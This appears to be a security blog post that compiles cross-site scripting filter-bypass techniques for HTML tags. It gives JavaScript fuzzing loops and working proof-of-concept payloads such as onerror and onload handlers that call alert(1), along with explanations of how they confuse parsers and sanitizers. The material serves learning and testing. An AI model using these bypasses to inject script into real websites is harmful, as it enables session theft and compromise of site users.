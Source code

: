 ```yaml
---
layout: mypost
title: A Compilation of XSS Techniques 
categories: [web]
---
```


# Introduction

For the past 3 months or so, trying to figure out how to improve at web hacking has, counterintuitively, completely halted my progress. 

In an attempt to guarantee some progress, I am compiling a list of XSS techniques with brief explanations from various payload lists, blog posts, books and tweets spread across the internet. 

This list will be separated into three sections: filter bypass techniques in HTML tags, filter bypass techniques in Javascript and other miscellaneous filter bypass techniques.

# Filter Bypass in HTML Tags

### Space Alternatives in Separating Tag Attributes
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<img${char}id=amongus>`;
    if (document.getElementById('amongus')) {
        console.log(`char '${char}' (hex code 0x${i.toString(16).toUpperCase()}) works`);
    }
}
```
Fuzzing with the above script, we find that the characters 0x9 (horizontal tab), 0xA (new line), 0xC (new page), 0xD (carriage return) and 0x2F (forward slash) all work in place of spaces in the above context. 

Additionally, no spaces are needed when an attribute is set to a quoted string before. Refer to example 3 to see what this means clearly.

#### Examples
*Example 1*
```html
<img/src=x/onerror=alert(1)>
```
A basic example.

*Example 2*
```html
<svg </onload ="1> alert(1)">
```
That `/` looks like it's part of a closing tag, but it isn't. In reality, it separates `<` from `onload` and creates an attribute named `<`.

*Example 3*
```html
<svg abcd=""onload=alert(1)>
```
No separation character needed.

### Symbols Allowed in Custom Tag Names
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<amongus${char}>`;
    if (!document.getElementsByTagName(`amongus${char}`)) {
        console.log(`char '${cha    r}' (hex code 0x${i.toString(16).toUpperCase()}) does not work`);
    }
}
```
Fuzzing with the above script, we find that any non-space (or space alternative) unicode character will work as tag name characters in the above context. 

#### Examples
```html
<w=" x="y>" ondblclick=confirm()>double click me!</w=">
```

### Symbols Allowed in Attribute Names
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<img id=amongus src=x ${char}_ onerror=alert(1)>`;
    if (!document.getElementById('amongus').hasAttribute(`${char}_`)) {
        console.log(`char '${char}' (hex code 0x${i.toString(16).toUpperCase()}) does not generate a character`);
    }
}
```
Fuzzing with the above script, we find that any non-space (or space alternative) unicode character will work in attribute names. If a null character (character code 0x0) is used, it will be replaced with a unicode replacement character.

#### Examples
```html
<img src="/" =_=" title="onerror='alert(1)'">
```
Put yourself in the point of view of a parser, and you'll quickly see just how confusing this is. Separating each attribute to a new line, we see:
```html
<img 
    src="/" 
    =_=" title="
    onerror='alert(1)'
    "
>
```
The trick here is that we have an attribute named `=_` to deceive an equal signs parser and another attribute named `"` for confusing a quote parser.

